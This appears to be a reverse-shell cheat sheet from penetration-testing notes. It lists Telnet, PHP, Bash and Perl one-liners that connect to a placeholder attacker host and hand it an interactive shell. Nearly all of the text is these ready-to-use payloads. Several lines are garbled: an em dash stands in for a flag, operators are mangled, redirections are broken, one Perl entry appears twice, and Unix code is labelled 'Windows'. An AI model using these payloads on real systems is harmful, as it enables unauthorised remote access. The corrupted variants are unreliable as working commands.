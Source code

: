 #### **Telnet Reverse Shell:** <a href="#toc475369001" id="toc475369001"></a>

* ```
  rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
  ```
* ```
  telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
  ```

#### **PHP:** <a href="#toc475369002" id="toc475369002"></a>

* ```
  php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
  * (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

#### **Bash:** <a href="#toc475369003" id="toc475369003"></a>

* ```
  exec /bin/bash 0&0 2>&0
  ```
* ```
  0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
  ```
* ```
  exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
  ```

\# or: while read line 0<&5; do $line 2>&5 >&5; done

* ```
  bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
  ```

#### **Perl:** <a href="#toc475369004" id="toc475369004"></a>

* ```
  exec "/bin/sh";
  ```
* ```
  perl —e 'exec "/bin/sh";'
  ```
* ```
  perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
* ```
  perl -MIO -e '$c=new IO==Socket==INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' 
  ```
  * Windows
* ```
  perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
  * &#x20;Windows
